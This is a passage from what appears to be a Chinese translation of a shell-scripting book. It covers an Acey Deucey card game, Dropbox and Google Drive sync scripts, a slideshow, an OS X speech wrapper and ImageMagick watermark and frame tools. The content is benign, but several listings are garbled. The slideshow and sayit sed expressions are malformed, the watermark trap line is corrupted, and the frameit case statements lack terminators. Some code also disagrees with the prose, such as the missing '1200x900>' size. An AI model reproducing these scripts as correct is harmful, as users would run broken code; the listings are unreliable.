  8 of Clubs
  10 of Hearts
The spread is 2. Do you think the next card will be between them? (y/n/q) n
I picked: 6 of Diamonds

You bet that it would not be between the two, and it isn't. WIN!

I've dealt:
  3 of Clubs
  10 of Spades
The spread is 7. Do you think the next card will be between them? (y/n/q) y
I picked: 5 of Clubs

You bet that it would be between the two, and it is. WIN!
```

```text
I've dealt:
  5 of Diamonds
  Queen of Spades
The spread is 7. Do you think the next card will be between them? (y/n/q) q

You played 3 games and won 3 times.
```

代码清单 12-15：运行`aceydeucey`脚本游戏

## 破解脚本

这里还有一个挥之不去的问题：当阈值为 10 时，牌组是否得到了充分的洗牌；这绝对是一个可以改进的方向。此外，显示“差值”（两张牌点数之差）是否有益也尚不明确。在真实的游戏中，你肯定不会这么做；玩家需要自己计算出来。

另一方面，你可以反其道而行之，计算在两个任意牌值之间抽到一张牌的概率。让我们思考一下：抽到任何一张特定牌的概率是 52 分之一。如果牌组中还剩 50 张牌（因为已经发了两张），那么抽到任何一张特定牌的概率就是 50 分之一。由于花色无关紧要，抽到任何一个不同点数的概率是 50 分之 4。因此，给定某个差值的概率是（该可能差值范围内的牌数 × 4）除以 50。如果发出的牌是 5 和 10，差值就是 4，因为可能的获胜牌是 6, 7, 8 或 9。所以获胜的概率是 4 × 4 除以 50。明白我们的意思了吗？

最后，与所有基于命令行的游戏一样，界面还需要一些优化。我们将此留给你来完成。我们还将留给你一个问题：利用这个方便的扑克牌函数库，还可以探索哪些其他游戏。

# 13 使用云服务

过去十年中最显著的变化之一是互联网作为一种“设备”的兴起，其中最值得注意的是基于互联网的数据存储。起初它仅用于备份，但随着移动技术的同步兴起，基于云的存储在日常磁盘使用中变得非常有用。使用云服务的应用程序包括音乐库（iTunes 的 iCloud）和文件存档（Windows 系统上的 OneDrive 和 Android 设备上的 Google Drive）。

现在一些系统完全围绕云端构建。一个例子是 Google 的 Chrome 操作系统，这是一个围绕 Web 浏览器构建的完整工作环境。十年前，这听起来很荒唐，但当你想到现在你在浏览器中花费的时间之多……嗯，库比蒂诺（Cupertino）或雷德蒙德（Redmond）的人现在没人在笑话了。

云服务非常适合添加 Shell 脚本，所以让我们开始吧。本章中的脚本将主要关注 OS X，但这些概念可以轻松地在 Linux 或其他 BSD 系统上复制。

## 89 保持 Dropbox 运行

Dropbox 是众多有用的云存储系统之一，由于它在 iOS、Android、OS X、Windows 和 Linux 上的广泛可用性，在拥有多种设备的用户中尤其受欢迎。重要的是要理解，虽然 Dropbox 是一个云存储系统，但在你设备上显示的部件是一个小型应用程序，旨在后台运行，将你的系统连接到 Dropbox 的互联网服务器，并提供一个相当简单的用户界面。如果没有 Dropbox 应用程序在后台运行，我们将无法成功地将文件从计算机备份并同步到 Dropbox。

因此，测试程序是否在运行只需调用`ps`即可，如代码清单 13-1 所示。

### 代码

```bash
#!/bin/bash
# startdropbox--确保 Dropbox 在 OS X 上运行

app="Dropbox.app"
verbose=1

running="$(ps aux | grep -i $app | grep -v grep)"

if [ "$1" = "-s" ] ; then    # -s 用于静默模式
    verbose=0
fi

if [ ! -z "$running" ] ; then
    if [ $verbose -eq 1 ] ; then
        echo "$app is running with PID $(echo $running | cut -d\  -f2)"
    fi
else
    if [ $verbose -eq 1 ] ; then
        echo "Launching $app"
    fi
    open -a $app
fi

exit 0
```

代码清单 13-1：`startdropbox`脚本

### 工作原理

脚本中有两行关键代码，分别用 ➊ 和 ➋ 标出。第一行调用`ps`命令➊，然后使用一系列`grep`命令来查找指定的应用程序——Dropbox.app——同时将自身从结果中过滤掉。如果结果字符串非空，则表示 Dropbox 程序正在运行并已守护进程化（*守护进程*是一种旨在 24/7 全天候在后台运行并执行无需用户干预的有用任务的程序），我们就完成了。

如果`Dropbox.app`程序没有运行，那么在 OS X 上调用`open`就可以完成查找应用并启动它的工作。

### 运行脚本

使用`-s`标志消除输出时，没有任何可见内容。但在默认情况下，会有简短的状态输出，如代码清单 13-2 所示。

### 运行结果

```text
$ startdropbox
Launching Dropbox.app
$ startdropbox
Dropbox.app is running with PID 22270
```

代码清单 13-2：运行`startdropbox`脚本以启动`Dropbox.app`

### 破解脚本

这个脚本能做的改进不多，但如果你想让它在 Linux 系统上运行，请确保你已经从其官网安装了官方的 Dropbox 软件包。你可以通过`startdropbox`来启动 Dropbox（在正确配置之后）。

## 90 同步 Dropbox

对于像 Dropbox 这样的云系统，编写一个让你保持文件夹或一组文件同步的脚本是理所当然的。Dropbox 的工作方式是将 Dropbox 目录中的所有内容在本地副本和云端副本之间保持同步，通常是通过在系统中模拟一个本地硬盘来实现的。

代码清单 13-3 中的脚本`syncdropbox`利用了这一点，提供了一种简单的方法，将包含文件的目录或指定的一组文件复制到 Dropbox 宇宙中。在前者的情况下，目录中的每个文件副本都将被复制过去；在后者的情况下，每个指定文件的副本将被放入 Dropbox 的`sync`文件夹中。

### 代码

```bash
#!/bin/bash
# syncdropbox--将一组文件或指定文件夹与 Dropbox 同步。
#    这是通过将文件夹复制到 ~/Dropbox 或将一组文件
#    复制到 Dropbox 的 sync 文件夹，然后根据需要启动 Dropbox.app 来实现的。

name="syncdropbox"
dropbox="$HOME/Dropbox"
sourcedir=""
targetdir="sync"  # Dropbox 中用于存放单个文件的目标文件夹

# 检查启动参数。

if [ $# -eq 0 ] ; then
    echo "Usage: $0 [-d source-folder] {file, file, file}" >&2
    exit 1
fi

if [ "$1" = "-d" ] ; then
    sourcedir="$2"
    shift; shift
fi

# 有效性检查

if [ ! -z "$sourcedir" -a $# -ne 0 ] ; then
    echo "Error: You can't specify both a directory and specific files." >&2
    exit 1
fi

if [ ! -z "$sourcedir" ] ; then
    if [ ! -d "$sourcedir" ] ; then
        echo "Error: Please specify a source directory with -d." >&2
        exit 1
    fi
fi

#########################
#### 主代码块
#########################

if [ ! -z "$sourcedir" ] ; then
    if [ -f "$dropbox/$sourcedir" -o -d "$dropbox/$sourcedir" ] ; then
        echo "Error: Specified source directory $sourcedir already exists." >&2
        exit 1
    fi

    echo "Copying contents of $sourcedir to $dropbox..."
    # -a 执行递归复制，保留所有者信息等。
    cp -a "$sourcedir" $dropbox
else
    # 没有源目录，因此我们收到的是单个文件。
    if [ ! -d "$dropbox/$targetdir" ] ; then
        mkdir "$dropbox/$targetdir"
        if [ $? -ne 0 ] ; then
            echo "Error: Error encountered during mkdir $dropbox/$targetdir." >&2
            exit 1
        fi
    fi

    # 准备就绪！让我们复制指定的文件。
    cp -p -v "$@" "$dropbox/$targetdir"
fi

# 现在让我们启动 Dropbox 应用，让它在需要时执行实际的同步。
exec startdropbox -s
```

代码清单 13-3：`syncdropbox`脚本

### 工作原理

代码清单 13-3 的绝大部分内容是在测试错误条件，这虽然枯燥，但对于确保脚本被正确调用且不会搞砸任何事情非常有用。（我们不希望丢失任何数据！）

复杂之处在于测试表达式，比如 ➊ 处。这在测试 Dropbox 文件夹中用于目录复制的`$sourcedir`目标路径是一个文件（这会很奇怪）还是一个已存在的目录。可以将其读作“如果`$dropbox/$sourcedir`作为一个文件存在 OR`$dropbox/$sourcedir`作为一个目录存在，那么 ... ”

在另一行有趣的代码中，我们调用`cp`➋来复制单独指定的文件。你可能想阅读`cp`的 man 手册来查看所有这些标志的作用。记住，`$@`是在调用命令时指定的所有位置参数的快捷方式。

### 运行脚本

与本书中的许多脚本一样，你可以不带参数地调用它，以快速回顾如何使用它，如代码清单 13-4 所示。

```text
$ syncdropbox
Usage: syncdropbox [-d source-folder] {file, file, file}
```

代码清单 13-4：打印`syncdropbox`脚本的用法

### 运行结果

现在在代码清单 13-5 中，让我们推送一个特定的文件以同步并备份到 Dropbox。

```text
$ syncdropbox test.html
test.html -> /Users/taylor/Dropbox/sync/test.html
$
```

代码清单 13-5：将特定文件同步到 Dropbox

足够简单，而且当你意识到这一切使得指定的文件（或充满文件的目录）可以从任何登录了你 Dropbox 账户的其他设备上轻松访问时，它就非常有用了。

### 脚本改造

当指定了一个目录但该目录在 Dropbox 中已经存在时，与其仅仅打印错误并失败，不如比较本地目录和 Dropbox 目录的内容，这样会有用得多。此外，在指定一组文件时，如果能够指定 Dropbox 文件层级结构中的目标目录，将会非常方便。

> **其他云服务**
>
> 将前两个脚本适配到微软的 OneDrive 服务或苹果的 iCloud 服务是非常简单的，因为它们都具有相同的基本功能。主要区别在于命名约定和目录位置。哦，还有就是 OneDrive 在某些上下文中被称为 OneDrive（例如需要运行的应用程序），而在其他上下文中被称为 SkyDrive（位于用户主目录中的目录）。不过，这些都很容易处理。

## 91 从云端照片流创建幻灯片

有些人非常喜欢 iCloud 的照片备份服务 Photo Stream，而另一些人则觉得它倾向于保留每一张拍摄的照片（甚至是来自移动设备的废弃垃圾照片）很烦人。尽管如此，将照片同步到最喜欢的云备份服务是非常普遍的。缺点是这些文件基本上被“隐藏”了——因为它们深埋在文件系统中，许多照片幻灯片程序无法自动识别它们。


我们将使用`slideshow`来改进这一点，这是一个简单的脚本（如 Listing 13-6 所示），它会轮询相机上传文件夹并在其中显示图片，且限制在特定尺寸内。为了达到预期效果，我们可以使用 ImageMagick 自带的`display`工具（这是一个功能强大的工具集，你将在下一章中详细了解）。在 OS X 上，brew 包管理器用户可以轻松安装 ImageMagick：

```bash
$ brew install imagemagick --with-x11
```

> **注意** 几年前，苹果公司停止在主操作系统中自带 X11（一个流行的 Linux 和 BSD 图形库）。为了在 OS X 上使用`slideshow`脚本，你需要通过安装 XQuartz 软件包，为 ImageMagick 提供其所需的 X11 库和资源。你可以在官方网站找到关于 XQuartz 及其安装方式的更多信息：<https://www.xquartz.org/>。

### 代码

```bash
#!/bin/bash
# slideshow--Displays a slide show of photos from the specified directory.
# Uses ImageMagick's "display" utility.

delay=2 # Default delay in seconds
psize="1200x900" # Preferred image size for display

if [ $# -eq 0 ]; then
    echo "Usage: $(basename $0) watch-directory" >&2
    exit 1
fi

watch="$1"

if [ ! -d "$watch" ]; then
    echo "$(basename $0): Specified directory $watch isn't a directory." >&2
    exit 1
fi

cd "$watch"

if [ $? -ne 0 ]; then
    echo "$(basename $0): Failed trying to cd into $watch" >&2
    exit 1
fi

suffixes=$(
    file * | grep image | cut -d: -f1 | rev | cut -d . -f1 | \
    rev | sort | uniq | sed 's/^\/.*\//'
)

if [ -z "$suffixes" ]; then
    echo "$(basename $0): No images to display in folder $watch" >&2
    exit 1
fi

/bin/echo -n "Displaying $(ls $suffixes | wc -l) images from $watch "
set -f ; echo "with suffixes $suffixes" ; set +f

display -loop 0 -delay $delay -resize $psize -backdrop $suffixes

exit 0
```

Listing 13-6：`slideshow`脚本

### 工作原理

Listing 13-6 中没有太多复杂的内容，除了为了让 ImageMagick 的`display`命令按预期运行而辛苦研究每个参数的过程。第 14 章全部关于 ImageMagick，因为这些工具简直太好用了，所以这只是一个预热。目前，请相信代码编写正确，包括那个看起来很奇怪的图像几何参数`1200x900>`，其中末尾的`>`意味着“在保持与原图比例的同时，将图像调整为适应这些尺寸”。

换句话说，一张 $2200 \times 1000$ 的图像将被自动调整大小以适应 1200 像素宽的限制，垂直维度将相应地从 1000 像素变为 545 像素。太棒了！

该脚本还通过`file`命令提取所有图像文件，并经过一段相当复杂的管道序列，将这些文件名简化为仅包含后缀（如`*.jpg`、`*.png`等），从而确保指定目录中确实存在图像。

将这段代码放在 shell 脚本中的问题是，每当脚本引用星号（`*`）时，它会被展开为所有匹配通配符的文件名，因此它不会只显示`*.jpg`，而是显示当前目录下所有的`.jpg`文件。这就是为什么脚本暂时禁用了`globbing`（shell 将这些通配符展开为其他文件名的能力）。

然而，如果在整个脚本中关闭 globbing，`display`程序会抱怨找不到名为`*.jpg`的图像文件。那样就不好了。

### 运行脚本

指定一个包含一个或多个图像文件的目录，理想情况下是来自 OneDrive 或 Dropbox 等云备份系统的照片存档，如 Listing 13-7 所示。

### 运行结果

```bash
$ slideshow ~/SkyDrive/Pictures/
Displaying 2252 images from ~/SkyDrive/Pictures/ with suffixes *.gif *.jpg *.png
```

Listing 13-7：运行`slideshow`脚本以显示云存档中的图像

运行脚本后，应该会弹出一个新窗口，缓慢地循环播放你备份和同步的图像。这是一个分享所有精彩度假照片的便捷脚本！

### 脚本改造

你可以做很多事情让这个脚本更优雅，其中大部分与允许用户指定目前硬编码在`display`调用中的值（如图片分辨率）有关。特别是，你可以允许使用不同的显示设备，以便将图像推送到第二个屏幕，或者允许用户更改图像之间的延迟时间。

## #92 与 Google Drive 同步文件

Google Drive 是另一个流行的基于云的存储系统。它与 Google 办公实用工具套件绑定，成为了整个在线编辑和生产系统的门户，这使得它作为一个同步目标变得非常有意思。将一个 Microsoft Word 文件复制到你的 Google Drive 中，随后你就可以在任何 Web 浏览器中编辑它，无论你的电脑在不在身边。演示文稿、电子表格甚至照片也是如此。太实用了！

一个有趣的注意点是，Google Drive 并不在你的系统中存储其 Google Docs 文件，而是存储指向云端文档的指针。例如，请看这个：

```bash
$ cat M3\ Speaker1\ Proposals\ (voting).gsheet
{"url": "https://docs.google.com/spreadsheet/ccc?key=0Ataz7Q4SmjEZdGdxYVvZdXRQ
EgWbDUHifZdplPv1ZpS3cu&doclist_api", "resource_id": "spreadsheet:0Ataz7Q4Smj
EzdGdxYVvZdXRQpWbDUHifZdplPv1YpZpS3c"}
```

这绝对不是该电子表格的实际内容。

通过对`curl`进行一些调整，你可能可以编写一个实用程序来分析这些元信息，但让我们关注一些简单点的事情：一个让你挑选文件并自动镜像到你的 Google Drive 账户的脚本，详见 Listing 13-8。

### 代码

```bash
#!/bin/bash
# syncdrive--lets you specify one or more files to automatically copy
# to your Google Drive folder, which syncs with your cloud account

gdrive="$HOME/Google Drive"
gsync="$gdrive/gsync"
gapp="Google Drive.app"

if [ $# -eq 0 ]; then
    echo "Usage: $(basename $0) [file or files to sync]" >&2
    exit 1
fi

# First, is Google Drive running? If not, launch it.
if [ -z "$(ps -ef | grep "$gapp" | grep -v grep)" ]; then
    echo "Starting up Google Drive daemon..."
    open -a "$gapp"
fi

# Now, does the /gsync folder exist?
if [ ! -d "$gsync" ]; then
    mkdir "$gsync"
    if [ $? -ne 0 ]; then
        echo "$(basename $0): Failed trying to mkdir $gsync" >&2
        exit 1
    fi
fi

for name # Loop over the arguments passed to the script.
do
    echo "Copying file $name to your Google Drive"
    cp -a "$name" "$gdrive/gsync/"
done

exit 0
```

Listing 13-8：`syncdrive`脚本

### 工作原理

与第 300 页的脚本 #89 类似，该脚本在将文件复制到 Google Drive 文件夹之前，会检查特定的云服务守护进程是否正在运行。这在代码块 ➊ 中实现。

为了编写真正简洁的代码，我们可能应该检查`open`调用的返回代码，但我们就把它作为读者的练习吧，好吗？ ☺

之后，脚本确保 Google Drive 上存在一个名为`gsync`的子目录（如果需要则创建），然后简单地将指定的文件复制到其中，使用`cp`的便捷选项`-a`以确保保留创建和修改时间。

### 运行脚本

只需指定一个或多个你希望与 Google Drive 账户同步的文件，脚本将完成所有幕后工作以确保同步成功。

### 运行结果

这实际上很酷。指定一个你想复制到 Google Drive 的文件，如 Listing 13-9 所示。

```bash
$ syncdrive sample.crontab
Starting up Google Drive daemon...
Copying file sample.crontab to your Google Drive
$ syncdrive ~/Documents/what-to-expect-op-ed.doc
Copying file /Users/taylor/Documents/what-to-expect-op-ed.doc to your Google Drive
```

Listing 13-9：启动 Google Drive 并使用`syncdrive`脚本同步文件

注意，第一次运行时，它还需要启动 Google Drive 守护进程。等待几秒钟文件复制到云存储系统后，它们就会出现在 Google Drive 的 Web 界面中，如图 13-1 所示。

图 13-1：Sample.crontab 和一个办公文档已自动同步到 Google Drive 并显示在在线端。

### 修改脚本

这里有一点“虚假宣传”：当你指定一个要同步的文件时，脚本并不会在未来的文件更改中保持同步；它只是将文件复制一次就结束了。一个真正有趣的改进（hack）是创建一个更强大的脚本版本，在该版本中你可以指定想要保持备份的文件，脚本会定期检查它们，并将任何新文件复制到`gsync`目录。

## #93 电脑在说话 . . .

OS X 包含一个先进的语音合成系统，可以告诉你系统的运行情况。它通常位于“辅助功能”选项中，但如果一台计算机能够（例如）朗读错误消息或朗读文件，你就可以用它做很多事情。

事实证明，所有这些功能——以及一大堆有趣的语音——在 OS X 的命令行中也可以通过一个内置的实用程序`say`来访问。你可以使用这个命令来测试它：

```bash
$ say "You never knew I could talk to you, did you?"
```

我们就知道你会觉得这很有趣！

你可以利用这个内置程序做很多事情，但这同时也是编写一个包装脚本（wrapper script）的绝佳机会，使确定安装了哪些语音以及获取每个语音的演示变得更加容易。代码清单 13-10 中的脚本并没有取代`say`命令；它只是让该命令更容易使用（这也是本书贯穿始终的一个主题）。

### 代码

```bash
#!/bin/bash
# sayit--Uses the "say" command to read whatever's specified (OS X only)

dosay="$(which say) --quality=127"
format="$(which fmt) -w 70"

voice=""			 # Default system voice
rate=""			 # Default to the standard speaking rate

demovoices()
{
	# Offer up a sample of each available voice.
	voicelist=$(say -v \? | grep "_en_" | cut -c1-12 \
		| sed ' s/ _ /_ /_ /g; s/_ / /g; s/' /' /')

	if [ "$1" = "list" ] ; then
		echo "Available voices: $(echo $voicelist | sed ' s/ _ / / , /g; s/_ / / 'g)"
		echo "$format"
		echo "HANDY TIP: use $(basename 0) demo to hear all the voices"
		exit 0
	fi

	for name in $voicelist ; do
		myname=$(echo $name | sed 's/_ / / ')
		echo "Voice: $myname"
		$dosay -v "$myname" "Hello! I'm $myname. This is what I sound like."
	done

	exit 0
}

usage()
{
	echo "Usage: sayit [-v voice] [-r rate] [-f file] phrase"
	echo "  or: sayit demo"
	exit 0
}

while getopts "df:r:v:" opt; do
	case $opt in
		d ) demovoices list  ;;
		f ) input="$OPTARG"	;;
		r ) rate="-r $OPTARG" ;;
		v ) voice="$OPTARG"
     ;;
esac
done

shift $(($OPTIND - 1))

if [ $# -eq 0 -a -z "$input" ] ; then
 $dosay "Hey! You haven't given me any parameters to work with."
 echo "Error: No parameters specified. Specify a file or phrase."
 exit 0
fi

if [ "$1" = "demo" ] ; then
 demovoices
fi

if [ ! -z "$input" ] ; then
 $dosay $rate -v "$voice" -f $input
else
 $dosay $rate -v "$voice" "$*"
fi

exit 0
```

代码清单 13-10：`sayit`脚本

### 工作原理

安装的语音比摘要中列出的还要多（那些只是针对英语优化的语音）。为了获得完整的语音列表，我们必须回到原始的`say`命令并使用`-v \?`参数。以下是完整语音列表的精简版：

```bash
$ say -v \?
Agnes   en_US  # Isn't it nice to have a computer that will talk to you?
Albert  en_US  # I have a frog in my throat. No, mean a real frog!
Alex    en_US  # Most people recognize me by my voice.
Alice   it_IT  # Salve, mi chiamo Alice e sono una voce italiana.
--snip--
Zarvox  en_US  # That looks like a peaceful planet.
Zuzana  cs_CZ  # Dobrý den, jmenuji se Zuzana. Jsem český hlas.
$
```

我们最喜欢的注释像 Pipe Organ（“我们必须在这个病态的声音中欢欣鼓舞。”）和 Zarvox（“那看起来像个和平的星球。”）。

显然，可选的语音太多了。此外，其中一些语音在英语发音上非常糟糕。一种解决方案是通过`"en_"`（或你喜欢的另一种语言）进行过滤，仅获取英语语音。你可以使用`"en_US"`表示美式英语，但其他英语语音也值得一听。我们在 ❶ 处获取语音的完整列表。

我们在该代码块的末尾包含了一系列复杂的`sed`替换，因为原始列表格式不规范：有的名字是一个单词（Fiona），有的是两个单词（Bad News），但空格也被用来创建列数据。为了解决这个问题，每行中的第一个空格被转换为下划线，然后删除所有其他空格。如果语音是一个单词的名字，它看起来会像这样："Ralph_"，最后的`sed`替换将删除任何尾随的下划线。在这个过程结束时，两个单词的名字中包含一个下划线，因此在输出给用户时需要修复。然而，这段代码的一个副作用是，在使用默认空格作为分隔符的情况下，编写`while`循环变得简单得多。


另一个有趣的部分是在 ❷ 处，每个语音依次自我介绍——即`sayit demo`的调用。

一旦你理解了`say`命令本身是如何工作的，这一切都变得非常简单。

### 运行脚本

由于此脚本产生音频，本书中无法直观展示。由于我们还没有 *Wicked Cool Shell Scripts* 的有声书（你能想象你会错过多少内容吗？），你需要亲自尝试以体验效果。不过，脚本列出所有已安装语音的能力可以通过代码清单 13-11 来演示。

### 结果

```bash
$ sayit -d
Available voices: Agnes, Albert, Alex, Bad News, Bahh, Bells, Boing, Boing, Bruce, Bubbles, Cellos, Daniel, Fred, Good News, Hysterical, Junior, Karen, Kathy, Moira, Pipe Organ, Princess, Ralph, Samantha, Tessa, Trinoids, Veena, Vicki, Victoria, Whisper, Zarvox
HANDY TIP: use "sayit.sh demo" to hear all the different voices
$ sayit "Yo, yo, dog! Whassup?"
$ sayit -v "Pipe Organ" -r 60 "Yo, yo, dog! Whassup?"
$ sayit -v "Ralph" -r 80 -f alice.txt
```

代码清单 13-11：运行`sayit`脚本以打印支持的语音并朗读

### 修改脚本

仔细检查`say -v \?`的输出可以发现，至少有一个语音的语言编码是错误的。Fiona 被列为`en-scotland`而不是`en_scotland`，后者会更一致（考虑到 Moira 被列为`en_IE`而不是`en-irish`或`en-ireland`）。一个简单的改进是让脚本同时支持`en_`和`en-`。除此之外，你可以尝试对它进行研究，思考在什么情况下让一个脚本——或守护进程——和你说话会有用。

## 14 ImageMagick 与图形文件处理

> 在 Linux 世界中，命令行具有极强的功能范围，但由于它是基于文本的，你能对图形文件做的事情并不多。真的如此吗？

事实证明，一套功能极其强大的命令行工具集 ImageMagick 几乎适用于所有命令行环境，从 OS X 到 Linux 以及更多系统。要使用本章中的脚本，你需要从 http://www.imagemagick.org/ 下载并安装该套件，或者通过`apt`、`yum`或`brew`等包管理器安装（如果你在第 304 页的脚本 #91 中还没有安装的话）。

由于这些工具旨在命令行运行，它们占用的磁盘空间非常少，（Windows 版本）大约只有 19MB。如果你想深入研究一些强大且灵活的软件，也可以获取源代码。开源再次获胜。

### #94 更智能的图像尺寸分析器

`file`命令提供了确定文件类型以及在某些情况下确定图像尺寸的能力。但它经常失败：

```bash
$ file * | head -4
100_0399.png: PNG image data, 1024 x 768, 8-bit/color RGBA, non-interlaced
8t grade arti.jpeg: JPEG image data, JFIF standard 1.01
99igon.gif: GIF image data, version 89a, 143 x 163
Angel.jpg: JPEG image data, JFIF standard 1.01
```

PNG 和 GIF 文件可以工作，但更常见的 JPEG 呢？`file`命令无法算出图像的尺寸。真烦人！

#### 代码

让我们用一个脚本（代码清单 14-1）来修复这个问题，该脚本使用 ImageMagick 的`identify`工具来更准确地确定图像尺寸。

```bash
#!/bin/bash
# imagesize--Displays image file information and dimensions using the
# identify utility from ImageMagick

for name
do
    identify -format "%:G with %k colors.\n" "$name"
done
exit 0
```

代码清单 14-1：`imagesize`脚本

#### 工作原理

当你使用`-verbose`标志时，`identify`工具会提取出关于每个分析图像的极大量信息，如下面针对一个 PNG 图形的输出所示：

```bash
$ identify -verbose testimage.png
Image: testimage.png
Format: PNG (Portable Network Graphics)
Class: DirectClass
Geometry: 1127x158+0+0
Resolution: 72x72
Print size: 16.2778x2.19444
Units: Undefined

--snip--

Profiles:
Profile-icc: 3144 bytes
IEC 61966-2.1 Default RGB colour space - sRGB
```

```text
Artifacts:
    verbose: true
Tainted: False
Filesize: 80.9KB
Number pixels: 185KB
Pixels per second: 18.52MB
User time: 0.000u
Elapsed time: 0.01.009
Version: ImageMagick 6.7.7-10 2016-06-01 Q16 http://www.imagemagick.org
$
```

数据量太大了。你可能会认为数据过多。但如果没有`-verbose`标志，输出结果会相当晦涩：

```text
$ identify testimage.png
testimage.png PNG 1172x2158 1172x158+0+0 8-bit DirectClass 80.9KB 0.000u
0:00.000
```

我们需要一个折中方案，而这时输出格式字符串就派上用场了。让我们更详细地查看代码清单 14-1，仅关注脚本中唯一有意义的那一行 ❶。

`-format`字符串有近 30 个选项，允许你以所需的精确格式从一张或多张图像中提取特定的数据。我们调用了`%f`来获取原始文件名，用`%s`作为宽度 × 高度的快捷方式，以及用`%k`作为图像中所使用的最大颜色数的计算值。

您可以在 http://www.imagemagick.org/script/escape.php 了解更多关于`-format`选项的信息。

#### 运行脚本

ImageMagick 完成了所有工作，因此这个脚本主要只是编码所需特定输出格式的一种方式。正如代码清单 14-2 所示，获取图像信息既快速又简单。

#### 结果

```text
$ imagesize * | head -4
100_0399.png: 1024x768 with 120719 colors.
8t grade art1.jpeg: 480x554 with 11548 colors.
dticon.gif: 143x163 with 80 colors.
Angel.jpg: 532x404 with 80045 colors.
$
```

代码清单 14-2：运行`imagesize`脚本

#### 修改脚本

目前，我们可以看到图像的像素大小和可用颜色集，但一个非常有用的补充将是文件大小。然而，除非对输出进行简单的重新格式化，否则任何更多信息都将难以阅读。

### #95 给图像添加水印

如果你想在将图像和其他内容发布到网上时对其进行保护，你注定会感到失望。网络上的任何内容都可以被复制，无论你是否设置了密码、使用了强有力的版权声明，甚至在网站中添加尝试阻止用户保存单张图像的代码。事实是，计算机为了能够在网上渲染任何内容，必须使用设备上的图像缓冲区，而该缓冲区可以通过截屏或类似工具进行复制。

但并非绝望。你可以采取两种措施来保护你的在线图像。一种是仅发布小尺寸的图像。看看专业摄影师的网站，你就会明白我们的意思。通常他们只分享缩略图，因为他们希望你购买较大的图像文件。

添加水印是另一种解决方案，尽管一些艺术家会对直接在照片上添加版权图像或其他识别信息的工作感到反感。但使用 ImageMagick，添加水印非常简单，甚至可以批量处理，如代码清单 14-3 所示。

#### 代码

```bash
#!/bin/bash
# watermark--Adds specified text as a watermark on the input image,
# saving the output as image=wm

wmfile="/tmp/watermark.$$.png"
fontsize="44"			# Should be a starting arg

trap "(wm rh) rm -f $wmfile" 0 1 15	# No temp file left behind

if [ $# -ne 2 ]; then
echo "Usage: $(basename $0) imagefile \"watermark text\"" >&2
exit 1
fi

if [ ! -r "$1" ]; then
echo "$(basename $0): Can't read input image $1" >&2
exit 1
fi

# To start, get the dimensions of the image.
dimensions="$(identify -format "%G" "$1")"

# Let's create the temporary watermark overlay.
convert -size $dimensions xc:none -pointsize $fontsize -gravity south \ 
-draw "fill black text 1,1 '$2' text 0,0 '$2' fill white text 2,2 '$2'" \ 
$wmfile

# Now let's composite the overlay and the original file.
suffix="$(echo $1 | rev | cut -d. -f1 | rev)"
prefix="$(echo $1 | rev | cut -d. -f2- | rev)"
newfilename="${prefix}+wm.${suffix}"
composite -dissolve 75% -gravity south "$wmfile" "$1" "$newfilename"

echo "Created new watermarked image file $newfilename."

exit 0
```

代码清单 14-3：`watermark`脚本

#### 工作原理

这个脚本中几乎所有令人困惑的代码都来自 ImageMagick。是的，它在执行复杂的操作，但即便如此，它的设计和文档方式使得 ImageMagick 具有一定的挑战性。尽管如此，不要因为这些而全盘否定它，因为各种 ImageMagick 工具的功能和特性非常强大，绝对值得投入时间学习。

第一步是获取图像的尺寸（由符号表示），这样水印覆盖层将具有完全相同的尺寸。如果不匹配，会发生糟糕的事情！

`"%G"`产生宽度 × 高度，然后将其传递给`convert`程序作为要生成的新画布的大小。在（由 2 表示）的`convert`行是直接从 ImageMagick 文档中复制的，因为坦率地说，从零开始将其写正确非常棘手。（要详细了解`convert -draw`参数语言的具体细节，我们建议您进行快速的在线搜索。或者您直接复制我们的代码即可！）

新文件名应该是基础文件名加上`+wm`，这就是（由 3 表示）的三行代码所实现的功能。`rev`命令对其输入进行逐字符反转，这样`cut -d . -f1`就可以获取文件名后缀，因为我们不知道文件名中会出现多少个点。然后将后缀重新排列回正确顺序并加上`+wm.`。

最后，我们使用`composite`工具（由 4 表示）将各部分组合在一起，制作出带水印的图像。你可以尝试不同的`-dissolve`值，使覆盖层更透明或更不透明。

#### 运行脚本

该脚本接受两个参数：要添加水印的图像名称和水印序列本身的文本。如果水印包含多个单词，请确保整个短语用引号括起来，以便正确传输，如代码清单 14-4 所示。

```text
$ watermark test.png "(C) 2016 by Dave Taylor"
Created new watermarked image file test+wm.png.
```

代码清单 14-4：运行`watermark`脚本

#### 结果

结果如图 14-1 所示。


图 14-1：自动应用水印的图像

如果你遇到`unable to read font`错误，那么你可能缺少 Ghostscript 软件套件（在 OS X 上很常见）。要解决这个问题，请使用你的包管理器安装 Ghostscript。例如，使用以下命令在 OS X 上安装 brew 包管理器：

```text
$ brew install ghostscript
```

#### 修改脚本

用于水印的字体大小应该是图像大小的函数。如果图像宽 280 像素，44 点的水印就太大了；但如果图像宽 3800 像素，44 点可能又太小了。可以通过将字体大小或文本位置作为另一个参数添加到脚本中，将其交给用户选择。

ImageMagick 还知道你系统中的字体，因此允许用户通过名称指定要用作水印的字体将会很有帮助。

### #96 给图像添加边框

能够给图像加上边框或精致的框架通常非常有用，ImageMagick 通过`convert`工具在这方面提供了很多能力。问题在于，与该套件的其他部分一样，很难从 ImageMagick 的文档中弄清楚如何使用这个工具。

例如，这是对`-frame`参数的解释：

`geometry`参数的大小部分指示添加到图像尺寸的额外宽度和高度。如果在`geometry`参数中没有给出偏移量，则添加的边框为纯色。如果存在偏移量 x 和 y，则指定边框的宽度和高度被划分为厚度为 x 像素的外斜面和厚度为 y 像素的内斜面。

懂了吗？

也许直接看一个例子会更容易。事实上，这正是我们在本脚本的`usage()`函数中所做的，如代码清单 14-5 所示。

#### 代码

```bash
#!/bin/bash
# frameit--Makes it easy to add a graphical frame around
# an image file, using ImageMagick

usage()
{
	cat << EOF
	Usage: $(basename $0) -b border -c color imagename
	or $(basename $0) -f frame -m color imagename

	In the first case, specify border parameters as size x size or
	percentage x percentage followed by the color desired for the
	border (RGB or color name).

	In the second instance, specify the frame size and offset,
	followed by the matte color.
	
	EXAMPLE USAGE:
	$(basename $0) -b 15x15% -c black imagename
	$(basename $0) -b 10%x10% -c gray imagename

	$(basename $0) -f 10x10+10+0 imagename
	$(basename $0) -f 6x6+2+2 -m tomato imagename
	
	EOF
	exit 1
}

#### MAIN CODE BLOCK

# Most of this is parsing starting arguments!

while getopts "b:c:f:m:" opt; do
	case $opt in
```


```bash
b ) border="$OPTARG";
 c ) bordercolor="$OPTARG";
 f ) frame="$OPTARG";
 m ) mattecolor="$OPTARG";
 ? ) usage;
esac
done
